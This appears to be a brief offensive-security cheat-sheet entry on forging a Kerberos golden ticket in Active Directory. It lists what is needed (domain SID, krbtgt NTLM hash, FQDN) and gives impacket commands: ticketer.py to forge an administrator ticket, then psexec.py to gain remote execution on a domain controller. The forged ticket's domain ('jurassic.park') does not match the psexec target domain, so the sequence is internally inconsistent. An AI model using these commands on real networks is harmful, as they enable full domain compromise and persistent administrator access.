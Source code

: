 ### Requirements
- Knowledge of the domain name
- Knowledge of the domain SID
- The NTLM hash of the krbtgt account
- FQDN

```shell
ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park administrator

export KRB5CCNAME=administrator.ccache

psexec.py north.sevenkingdoms.local/administrator@WINTERFELL.north.sevenkingdoms.local -k -no-pass
```



